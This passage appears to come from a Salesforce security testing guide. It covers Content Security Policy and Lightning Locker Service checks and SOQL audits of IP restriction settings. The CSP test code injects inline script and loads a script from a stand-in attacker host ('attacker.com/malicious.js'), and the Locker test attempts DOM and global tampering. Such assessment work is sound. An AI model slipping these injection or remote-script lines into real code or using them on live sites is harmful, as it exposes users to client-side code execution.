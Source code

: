 **Content Security Policy Testing**:
```javascript
// Test CSP bypass attempts
try {
    eval('alert("CSP Bypass")');
} catch(e) {
    console.log('CSP blocking eval');
}

// Test unsafe-inline script execution
document.body.innerHTML += '<script>alert("Inline script")</script>';

// Test external resource loading
var script = document.createElement('script');
script.src = 'https://attacker.com/malicious.js';
document.head.appendChild(script);
```

**Lightning Locker Service Assessment**:
```javascript
// Test Locker Service restrictions
({
    testLockerService: function(component, event, helper) {
        try {
            // Attempt DOM manipulation outside component
            document.getElementById('external-element').innerHTML = 'Modified';
        } catch(e) {
            console.log('Locker Service blocking DOM access');
        }
        
        try {
            // Attempt global variable access
            window.sensitiveGlobalVar = 'compromised';
        } catch(e) {
            console.log('Locker Service blocking global access');
        }
    }
})
```

**Impact**: Client-side code execution, component manipulation, data exposure.

---

## Platform Configuration Security

### 1. Critical Security Settings Audit

**Objective**: Review platform-wide security configurations for misconfigurations.

**Network Security Configuration**:
```sql
-- IP restrictions analysis
SELECT Id, IpAddress, IpAddressMask, Description, CreatedDate
FROM IpRestriction 
ORDER BY CreatedDate DESC

-- Login IP ranges by profile
SELECT Id, Profile.Name, StartAddress, EndAddress
FROM LoginIpRange 
ORDER BY Profile.Name
```
